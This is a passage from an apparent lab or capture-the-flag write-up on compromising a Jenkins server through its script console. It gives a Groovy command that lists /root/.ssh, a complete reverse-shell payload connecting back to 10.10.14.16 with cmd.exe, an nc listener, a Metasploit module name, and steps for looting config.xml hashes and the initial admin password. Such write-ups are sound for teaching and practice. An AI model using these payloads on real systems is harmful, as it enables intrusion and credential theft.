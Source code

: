 ```shell
# Anything we put here will be run, below is just an example.
def cmd = 'ls -la /root/.ssh'
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = cmd.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println sout
```


#### Using The Jenkins Scripting Console To Get A Reverse Shell: {#using-the-jenkins-scripting-console-to-get-a-reverse-shell}

As we have RCE on the host we can use the jenkins scripting console to get a reverse shell.

```shell
String host="10.10.14.16";
int port=53;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

We setup a listener:

```shell
rlwrap -cAr nc -nvlp 53
```

Then hit "run"
![](/ox-hugo/2025-06-16-073829_.png)

+Note+: There is also a metasploit module that can be used for this.

-   `use exploit/multi/http/jenkins_script_console`


### Checking `config.xml`: {#checking-config-dot-xml}

In most jenkins instances we can find hashed passwords in the `config.xml` file, located in the root of the install.
![](/ox-hugo/2025-06-16-075832_.png)

However in this case there does not appear to be any.


### Finding The Initial Jenkins Admin Password: {#finding-the-initial-jenkins-admin-password}

If we navigate to the secrets folder we can also find the initial jenkins admin password, this is generated on install by jenkins.
![](/ox-hugo/2025-06-16-075238_.png)
+Note+: This is purely for jenkins only, however we will take a copy of it for documentation purposes.
